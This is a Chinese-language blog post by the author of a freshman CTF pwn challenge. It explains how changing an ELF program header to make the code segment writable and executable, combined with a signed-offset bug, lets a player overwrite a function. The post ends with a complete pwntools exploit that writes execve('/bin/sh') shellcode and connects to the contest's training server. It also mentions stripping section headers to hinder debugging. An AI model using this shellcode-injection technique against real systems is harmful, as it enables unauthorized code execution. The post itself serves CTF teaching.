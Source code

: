 ```yaml
---
title: 赛博杯新生赛 2024 - corrupted 出题博客
date: 2024/12/18 19:37:00
updated: 2024/12/22 10:47:00
tags:
    - noob
    - elf header
    - challenge author
thumbnail: /assets/cbctf2024/rwx.png
excerpt: 前段时间在看ELF头，正好新生赛到了，可以拿来出一道简单题，类似于ret2shell。对于程序头phdr来说，如果`p_type == PT::LOAD`，那么它就是负责加载程序段的。对于本题的情况，我把原来加载代码段的`rx`改成了`rwx`，这样代码段就变成可读可写可执行了。可以通过设置偏移量为`-1394`修改`verify`函数的内容。可以修改4次，总共32字节，足以写一shellcode了，直接拿shell。
---
```


前段时间在看ELF头，正好新生赛到了，可以拿来出一道简单题，类似于`ret2shell`。
想看题解的可以跳过出题思路部分。

## 出题思路

首先可以使用ImHex来探查一下文件的结构。加载`elf.hexpat`:

![img](/assets/cbctf2024/elf.png)

大部分内容在[ctf-wiki](https://ctf-wiki.org/executable/elf/structure/basic-info/)
都说得很清楚，我这里就不再赘述了，大家可以参考学习。我的想法主要是如果修改了ELF文件头，
会发生什么呢？

对于程序头`phdr`来说，如果`p_type == PT::LOAD`，那么它就是负责加载程序段的。
对于本题的情况，我把原来加载代码段的`rx`改成了`rwx`，这样代码段就变成可读可写可执行了。

![rwx](/assets/cbctf2024/rwx.png)

我还尝试改过段头`shdr`，但是发现改完后对于程序的加载没有任何影响，甚至把整个`shdr`
全部删掉，程序依然能够运行。

{% note purple fa-bug-slash %}
用gdb直接调试没有段头的程序，会提示可执行文件格式错误，这也是反调试的一种手段。
{% endnote %}

接着讲回`phdr`，在程序头中，存在2个程序安全特性：`PT::GNU_STACK`和`PT::GNU_RELRO`。
对于前者，`p_flags`可以设置程序栈区的权限（可以为`x`，即调整NX）；对于后者，
调整了权限也没用，程序仍然会将GOT表设为只读。删除`PT::GNU_STACK`
会让内核自行选择是否需要开启NX，删除`PT::GNU_RELRO`则会使程序从`Partial RELRO`
或`Full RELRO`回落到`No RELRO`。

{% notel blue fa-arrow-right-to-bracket 隐藏的构造器 %}
有些同学可能看见`randdata`放在bss上，就以为`randdata`里面是空的，只要推算出全0的
SHA256结果就能过verify。然而，程序中还有一个函数`loadBuf`，被标记了`constructor`
属性，在程序运行`main`之前会将从`/dev/random`中的随机数据读入`randdata`中，
因此如果正常猜的话选手是不可能猜中`randdata`的值的。
{% endnotel %}

## 题解

程序可以输入4次qword，并且可以指定相对于`match`的偏移量，但是检查时不严格，
可以为负数。

![check](/assets/cbctf2024/check.png)

在输入完4次qword后，会运行到`verify`函数。运行起来查看`vmmap`，程序代码段是可写的，
再检查`verify`的地址，刚好和`match`差了`0x2b90`个字节，可以通过设置偏移量为`-1394`修改
`verify`函数的内容。

![diff](/assets/cbctf2024/vmmap.png)

可以修改4次，总共32字节，足以写一shellcode了，直接拿shell。

![legend](/assets/cbctf2024/legend.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './corrupted'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('training.0rays.club', 10030)
    elf = ELF(EXE)

    def answer(idx: int, val: int):
        sh.sendlineafter(b'QWORD do', str(idx).encode())
        sh.sendlineafter(b'QWORD to', str(val).encode())

    offset = (elf.symbols['verify'] - elf.symbols['match']) // 8
    shell = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    push 0x3b
    pop rax
    cdq
    syscall
    '''
    shc = asm(shell) # 21 bytes

    answer(offset, u64(shc[:8]))
    answer(offset + 1, u64(shc[8:16]))
    answer(offset + 2, unpack(shc[16:], 'all'))
    answer(0, 0)

    sh.clean()
    sh.interactive()
    sh.close()
```

## 参考

[ELF 文件 - CTF Wiki](https://ctf-wiki.org/executable/elf/structure/basic-info/)
